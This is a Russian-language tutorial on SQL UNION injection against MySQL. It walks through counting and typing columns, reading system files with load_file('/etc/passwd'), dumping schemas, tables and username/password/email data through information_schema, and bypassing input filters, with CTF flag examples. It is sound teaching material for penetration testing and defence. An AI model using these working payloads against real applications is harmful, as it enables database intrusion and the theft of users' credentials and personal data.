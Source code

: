 # SQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы успешно выполнить атаку, необходимо знать:**

* Сколько столбцов возвращается из исходного запроса
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - `ORDER BY`:

```sql
' ORDER BY 1 -- - (200 OK)
' ORDER BY 2 -- - (200 OK)
' ORDER BY 3 -- - (200 OK)
' ORDER BY 4 -- - (500 ERROR)
```

В таблице 3 столбца, так как `' ORDER BY 4` выдает ошибку.

**Второй способ** - `UNION SELECT`:

```sql
' UNION SELECT NULL-- (500 ERROR)
' UNION SELECT NULL,NULL -- - (500 ERROR)
' UNION SELECT NULL,NULL,NULL -- - (200 OK)
' UNION SELECT NULL,NULL,NULL,NULL -- - (500 ERROR)
```

Перебираем NULL, пока не получим 200 ОК, т.к. без ошибок

<mark style="color:green;">**Используем NULL, потому что NULL подходит для всех типов данных.**</mark>

### **Определение типа данных каждого столбца:**

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

### **Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```sql
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

### **Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
load_file() - вывод определенного файла, например, load_file('/etc/passwd')
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

* Определяем количество столбцов
* Определяем тип данных каждого столбца
* Выводим все базы данных:

```sql
1337'union select group_concat(schema_name),NULL,NULL from information_schema.schemata -- -
```

* Выводим все таблицы из базы данных database1

```sql
1337'union select group_concat(table_name),NULL,NULL from information_schema.tables where table_schema='database1' -- -
```

* Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat(column_name),NULL,NULL from information_schema.columns where table_schema='database1' and table_name='table1' -- -
```

* Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat("\n", username,":",password,":",email,"\n"),NULL,NULL from database1.table1
```

**1337 -** например, параметр id, но важно, чтобы такого значения не было в таблице (или можно использовать -1).

## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```sql
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```sql
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```sql
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```sql
1337 union SELSELECTECT null,null,flag from flag
```

